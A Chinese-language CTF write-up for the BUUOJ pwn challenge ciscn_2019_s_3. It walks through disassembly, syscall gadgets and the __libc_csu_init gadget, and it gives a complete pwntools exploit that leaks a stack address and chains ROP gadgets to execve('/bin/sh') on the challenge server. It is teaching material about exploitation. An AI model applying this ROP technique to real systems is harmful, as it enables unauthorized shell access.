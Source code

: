 # ciscn_2019_s_3

[题目地址](https://buuoj.cn/challenges#ciscn_2019_s_3)

好家伙这ghidra就没有效反编译出来一句代码。

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

rop题开个nx意思一下。main函数只调用了vuln函数，vuln函数……

```c
undefined  [16] vuln(void)

{
  syscall();
  syscall();
  return CONCAT88(0x30,1);
}
```

我们还是看汇编吧。

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined vuln()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x18]:1 local_18                                XREF[2]:     004004f9(*), 
                                                                                                   0040050f(*)  
                             vuln                                            XREF[4]:     Entry Point(*), main:00400531(c), 
                                                                                          004005e8, 004006a0(*)  
        004004ed 55              PUSH       RBP
        004004ee 48 89 e5        MOV        RBP,RSP
        004004f1 48 31 c0        XOR        RAX,RAX
        004004f4 ba 00 04        MOV        EDX,0x400
                 00 00
        004004f9 48 8d 74        LEA        RSI=>local_18,[RSP + -0x10]
                 24 f0
        004004fe 48 89 c7        MOV        RDI,RAX
        00400501 0f 05           SYSCALL
        00400503 48 c7 c0        MOV        RAX,0x1
                 01 00 00 00
        0040050a ba 30 00        MOV        EDX,0x30
                 00 00
        0040050f 48 8d 74        LEA        RSI=>local_18,[RSP + -0x10]
                 24 f0
        00400514 48 89 c7        MOV        RDI,RAX
        00400517 0f 05           SYSCALL
        00400519 c3              RET
        0040051a 90              NOP
        0040051b 5d              POP        RBP
        0040051c c3              RET

```

关键的两个syscall倒是出来了，而[64位syscall](https://blog.csdn.net/qq_29328443/article/details/107250889)执行的是什么功能还要看rax。第一个syscall之前有一句XOR        RAX,RAX，这相当于把rax赋值0，对应read；第二个syscall之前的rax赋值为0x1，对应write。再结合传参用的寄存器，翻译成伪代码就是read(0,local_18,0x400),write(1,local_18,0x30)，此处edx等同于rdx，一个高位一个地位罢了。继续看看程序给的其他好东西。

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined gadgets()
             undefined         AL:1           <RETURN>
                             gadgets                                         XREF[3]:     Entry Point(*), 004005e0, 
                                                                                          00400680(*)  
        004004d6 55              PUSH       RBP
        004004d7 48 89 e5        MOV        RBP,RSP
        004004da 48 c7 c0        MOV        RAX,0xf
                 0f 00 00 00
        004004e1 c3              RET
        004004e2 48 c7 c0        MOV        RAX,0x3b
                 3b 00 00 00
        004004e9 c3              RET
        004004ea 90              NOP
        004004eb 5d              POP        RBP
        004004ec c3              RET
```

直接上汇编了，压根没有能看的伪代码。gadget给了两段有关rax的，结合syscall的[系统调用号表](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/),分别是0xf：sys_rt_sigreturn；0x3b：sys_execve。这题有两种解法，一个跟着[wp](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)走比较简单的系统调用，另一个是学习[srop](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/advanced-rop/srop/)。我毅然决然地选择了简单的，难的东西迫不得已时再学吧:P

利用syscall getshell无非就是传个调用号和参数。调用号有了，参数是execve("/bin/sh",0,0)，3个参数有点棘手。还好我们有万能gadgegt——[__libc_csu_init](https://xz.aliyun.com/t/5597)。这个函数无论在ida还是ghidra里都能找到，重点看其中一段汇编。

```
                             LAB_00400580                                    XREF[1]:     00400594(j)  
        00400580 4c 89 ea        MOV        RDX,R13
        00400583 4c 89 f6        MOV        RSI,R14
        00400586 44 89 ff        MOV        EDI,R15D
        00400589 41 ff 14 dc     CALL       qword ptr [R12 + RBX*0x8]=>->frame_dummy         = 400490h
                                                                                             undefined frame_dummy()
                                                                                             = 4004B0h
                                                                                             undefined __do_global_dtors_aux()
        0040058d 48 83 c3 01     ADD        RBX,0x1
        00400591 48 39 eb        CMP        RBX,RBP
        00400594 75 ea           JNZ        LAB_00400580
                             LAB_00400596                                    XREF[1]:     00400574(j)  
        00400596 48 83 c4 08     ADD        RSP,0x8
        0040059a 5b              POP        RBX
        0040059b 5d              POP        RBP
        0040059c 41 5c           POP        R12
        0040059e 41 5d           POP        R13
        004005a0 41 5e           POP        R14
        004005a2 41 5f           POP        R15
        004005a4 c3              RET
```

这两个label不同函数可能会有变化，但是识别关键就在那一连串的pop，找到它们后往上再走一个label就是了。不是所有的pwn题都有这个函数，而且需要的栈空间比较多，要求布置六个寄存器（rbx/rbp/r12/r13/r14/r15）加一个 ret 返回地址，x64 下至少需要 56 个字节的栈空间。如果再算上将 rip 指令跳转进来（0x40061A）的一个 ret 地址，那就是 64 字节的栈空间。但是一旦符合就真的无敌了。一张图清楚怎么使用。

![__libc_csu_init](../images/__libc_csy_init.png)

图是大佬的文章找的，这个0x40061a和0x400600就是刚才提到的两个label，第一个地址是一堆pop的label的POP        RBX处，第二个地址就是上一个label的起始地址。更简单的[记法](https://blog.csdn.net/weixin_44681716/article/details/89057022)：

```
pop     rbx      //为了减小后面利用难度，将rbx取值为0
pop     rbp      //将rbp取值为1，通过检测，使检验避过。
pop     r12     //这里存放我们最后跳转目标函数地址
pop     r13    //传入第一个参数
pop     r14    //第二个参数
pop     r15  //第三个参数
```

照着它压栈，一般没问题。rbx和rbp有要求主要是因为这三：

```
0040058d 48 83 c3 01     ADD        RBX,0x1
00400591 48 39 eb        CMP        RBX,RBP
00400594 75 ea           JNZ        LAB_00400580
```

把rbx加上1，比较rbx和rbp，不相等就又来一遍，最简单的方式就是设置rbx为0，rbp为1。然而这题剑走偏锋，就是要它们不一样，这样我们可以执行两次LAB_00400580的内容。要先拿exp出来才行。

```python
from pwn import *
c = remote('node4.buuoj.cn',25104)
main = 0x4004ED

execv = 0x4004E2
'''
.text:00000000004004E2 ; 
.text:00000000004004E2                 mov     rax, 59
.text:00000000004004E9                 retn
'''

syscall = 0x400517
'''
.text:0000000000400517                 syscall                 ;
.text:0000000000400519                 retn                    ;
'''

p6r = 0x40059A
'''
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn
'''

movcall = 0x400580
'''
.text:0000000000400580 loc_400580:
.text:0000000000400580                 mov     rdx, r13
.text:0000000000400583                 mov     rsi, r14
.text:0000000000400586                 mov     edi, r15d
.text:0000000000400589                 call    qword ptr [r12+rbx*8]
.text:000000000040058D                 add     rbx, 1
.text:0000000000400591                 cmp     rbx, rbp
.text:0000000000400594                 jnz     short loc_400580
'''

pop_rdi_ret = 0x00000000004005a3
'''
0x00000000004005a3 : pop rdi ; ret
'''

payload = b'/bin/sh\x00' + b'b'*8 + p64(main)
c.send(payload)
offset = 0x118
binsh = u64(c.recv()[32:40]) - 0x118
log.success('binsh = ' + hex(binsh))

payload = b'/bin/sh\x00' + b'b'*8 + p64(p6r)
payload += p64(0)*2 + p64(binsh + 0x50) + p64(0)*3
payload += p64(movcall) + p64(execv)
payload += p64(pop_rdi_ret) + p64(binsh) + p64(syscall)

c.send(payload)

c.interactive()
```

看send的第二个payload，两个p64（0）是rbx和rbp，p64(binsh + 0x50)是要执行的函数地址的指针，套娃指向gadget，都是大佬调试调出来的，我自己调试发现那地方啥也没有。p64(0)\*3是传入的3个参数。看到这里觉得不对啊，rdi不应该是/bin/sh吗？事后我也试了一下，直接传binsh不行，很奇怪。既然两者不相等，整个loc_400580又来一遍，此时rbx是1，rdi，rsi，rdx都是0。这时走到call    qword ptr [r12+rbx\*8]，就是p64(execv)，这个执行完后会到pop_rdi_ret，剩下的就是正常rop了。

最后的难题是泄露地址，在接收输入后下断点调试可发现栈里面不是空的。

```
(gdb) $ x/8g $rbp-0x10-8
0x7ffd35f38de8:    0x0000000000000000    0x0068732f6e69622f
0x7ffd35f38df8:    0x6262626262626262    0x00000000004004ed
0x7ffd35f38e08:    0x0000000000400536    0x00007ffd35f38f38
0x7ffd35f38e18:    0x0000000100000000    0x0000000000000001
```

发现有个地址0x00007ffd35f38f38，这个地址和binsh的差值永远是0x118，write时会打它的地址，接收输入后相减就好了。